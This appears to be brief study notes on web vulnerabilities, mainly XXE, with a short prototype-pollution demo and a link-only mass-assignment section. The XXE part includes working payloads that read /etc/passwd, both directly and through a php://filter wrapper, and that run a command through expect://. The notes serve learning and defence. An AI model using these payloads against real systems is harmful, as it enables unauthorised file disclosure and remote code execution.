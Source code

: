 ## XXE:  
Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

**External entities**:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
```  

**Simple XXE attack: reading files**.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
```  

**Simple XXE attack: PHP Base64 conversion URI as an alternative**. (php://filter/convert.base64-encode/resource=/file/to/read)  
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
```  

**RCE thtough XXE**:  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
```  

## Prototype Pollution:  
```
var book = {bookName: "Book name", authorName: "Author of book"};
console.log(book.toString())
//output: “[object Object]”

book.__proto__.toString = ()=>{alert("polluted")}
console.log(book.toString())
// alert box pops up: “polluted”

IMAGE: alert pops up with value “polluted”
```
**Additional resources**:  
https://www.mend.io/resources/blog/prototype-pollution-vulnerabilities/  
https://guidesmiths.github.io/cybersecurity-handbook/attacks_explained/prototype_pollution  
https://youtu.be/W9_x8pc_bh8  

## MASS ASSIGNMENT ATTACK:

**Additional information**:  
https://youtu.be/r1j0COUMTqw  
